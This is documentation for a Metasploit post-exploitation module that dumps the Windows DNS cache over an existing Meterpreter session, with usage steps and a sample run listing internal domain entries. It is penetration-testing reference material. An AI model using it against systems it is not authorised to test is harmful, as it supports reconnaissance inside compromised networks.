 ## Vulnerable Application

This module displays the records stored in the DNS cache.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/dnscache_dump```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **SESSION**

  The session to run this module on.


## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/dnscache_dump
  msf post(windows/gather/dnscache_dump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dnscache_dump) > run

    [*] DNS Cached Entries
    ==================

    TYPE  DOMAIN
    ----  ------
    0001  dc.domain.local
    0001  watson.microsoft.com
    0005  download.windowsupdate.com
    0005  go.microsoft.com
    0005  www.msftncsi.com
    0005  download.microsoft.com
    00ff  isatap
    00ff  wpad
    00ff  _ldap._tcp.dc.domain.local
    00ff  _ldap._tcp.default-first-site-name._sites.dc.domain.local

    [*] Post module execution completed
    ```
